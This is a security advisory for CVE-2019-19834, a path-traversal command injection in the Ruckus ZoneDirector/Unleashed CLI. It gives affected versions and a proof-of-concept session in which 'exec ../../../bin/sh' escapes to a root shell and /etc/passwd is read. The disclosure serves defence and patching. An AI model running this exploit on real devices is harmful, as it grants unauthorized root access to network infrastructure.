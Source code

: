 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

severity: 'moderate'
alephid: ALEPH-2019004
cve: CVE-2019-19834
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Ruckus CLI (ruckus_cli2) jailbreak'
---
```

This is a command injection vulnerability via a crafted CLI command.

`/bin/ruckus_cli2` is a CLI used by Ruckus for user interaction and run commands by their web interface. `ruckus_cli2` has a `script` menu that can run limited set of stored scripts. `exec` command in that menu is vunrable to path traversal, and can be used to run `/bin/sh` in order to escape to a busybox shell. 

Information about the exploitation of the vulnerability can be found in our [blog post](/2020/01/13/ruckus-wireless/) or the [36C3 talk](https://youtu.be/bmGtG55Zz1Q?t=802).


## Proof Of Concept ##
Jail breaking Ruckus CLI using this exploit
```
Please login: admin
Password: 
Welcome to Ruckus Unleashed Network Command Line Interface

ruckus> enable 
ruckus# debug 
You have all rights in this mode.
ruckus(debug)# script 
ruckus(script)# exec ../../../bin/sh


Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$ echo $USER
admin

ruckus$ grep $USER /etc/passwd
admin:$1$-----------:0:0:root:/:/bin/sh
```
